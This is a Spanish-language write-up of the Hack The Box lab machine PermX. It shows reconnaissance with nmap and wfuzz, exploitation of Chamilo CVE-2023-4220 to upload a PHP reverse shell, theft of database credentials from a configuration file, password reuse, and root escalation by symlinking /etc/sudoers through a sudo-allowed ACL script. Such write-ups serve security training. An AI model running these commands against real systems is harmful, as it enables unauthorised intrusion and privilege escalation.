


**RECON**

**PORTS SCAN**

```ruby
>$ nmap -A -sV -sC permx.htb -oA nmap/PermX
Starting Nmap 7.94 ( https://nmap.org ) at 2024-07-08 10:52 EDT
Nmap scan report for 10.129.84.129
Host is up (0.041s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://permx.htb
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
En el puerto 80 hay un servidor web que está dirigido a http://permx.htb. Al añadirlo a los vhosts y acceder a la URL, encontramos un sitio web estático que no contiene información relevante o interesante.


Después, al realizar una enumeración de subdominios utilizando wfuzz, se muestra un subdominio llamado lms.permx.htb.

```ruby
❯ wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hc 302,404 -H "Host: FUZZ.permx.htb" permx.htb
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://permx.htb/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                      
=====================================================================

000000001:   200        586 L    2466 W     36182 Ch    "www"                                        
000000477:   200        352 L    940 W      19347 Ch    "lms" 

```
Hemos añadido los nuevos subdominios a ``/etc/hosts`` y ahora procederemos a visitar la página.



Mientras investigaba la versión de Chamilo y las vulnerabilidades recientes, encontré un exploit en GitHub con un POC (prueba de concepto) de ejecución de código remoto no autenticado.

[](https://github.com/Ziad-Sakr/Chamilo-LMS-CVE-2023-4220-Exploit/tree/main)

Te recomiendo usar la revershell de pentestmonkey.

[](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

```ruby
❯ bash CVE-2023-4220.sh -f rev.php -h http://lms.permx.htb/  -p 443

The file has successfully been uploaded.

#    Use This leter For Interactive TTY ;)  
#    python3 -c 'import pty;pty.spawn("/bin/bash")'
#    export TERM=xterm
#    CTRL + Z
#    stty raw -echo; fg

# Starting Reverse Shell On Port 443 . . . . . . .                                                            
                                                                                                              
listening on [any] 443 ...
connect to [10.10.14.18] from (UNKNOWN) [10.129.86.51] 47548
Linux permx 5.15.0-113-generic #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 17:34:08 up 18:45,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
www-data@permx:/$
www-data@permx:/$
www-data@permx:/$ ls
bin   dev  home  lib32  libx32      media  opt   root  sbin  sys  usr
boot  etc  lib   lib64  lost+found  mnt    proc  run   srv   tmp  var
```
Después de revisar un poco las configuraciones, pensé que si había un panel de login, probablemente habría alguna configuración vinculada a una base de datos. Fue entonces cuando encontré credenciales de la base de datos.

```ruby
www-data@permx:/var/www/chamilo/app/config$ cat configuration.php

<?php
// Chamilo version 1.11.24
// File generated by /install/index.php script - Sat, 20 Jan 2024 18:20:32 +0000
/* For licensing terms, see /license.txt */
/**
 * This file contains a list of variables that can be modified by the campus site's server administrator.
 * Pay attention when changing these variables, some changes may cause Chamilo to stop working.
 * If you changed some settings and want to restore them, please have a look at
 * configuration.dist.php. That file is an exact copy of the config file at install time.
 * Besides the $_configuration, a $_settings array also exists, that
 * contains variables that can be changed and will not break the platform.
 * These optional settings are defined in the database, now
 * (table settings_current).
 */

// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
// Enable access to database management for platform admins.
$_configuration['db_manager_enabled'] = false;

/**
```
Resulta que el usuario mtz reutilizó la contraseña... ahora tenemos acceso a su cuenta.

Una vez dentro, descubrimos que el usuario mtz tiene permisos sudo para ejecutar un script de bash que modifica los permisos de archivos de cualquier usuario....
```ruby
mtz@permx:~$ sudo -l 
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```

```bash
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

Utilicé este script para cambiar los permisos del archivo sudoers y lo modifiqué para otorgarle al usuario mtz privilegios sudo en el host. Para lograrlo, creé un enlace simbólico al archivo /etc/sudoers en el directorio /home/mtz y utilicé el script para darle permisos de lectura y escritura al usuario.

```ruby
mtz@permx:~$ ln -s /etc/sudoers ./tada
mtz@permx:~$ sudo /opt/acl.sh mtz rw /home/mtz/tada
```

Modifica el archivo de sudoers.

```ruby
. . .

@includedir /etc/sudoers.d
mtz ALL=(ALL:ALL) NOPASSWD: ALL
```
Ahora ya podemos hacer login a root!!

```ruby
mtz@permx:~$ sudo su
root@permx:/home/mtz# cat /root/root.txt
xxxxxxxxxxxxxxxxxxxxxxx
```
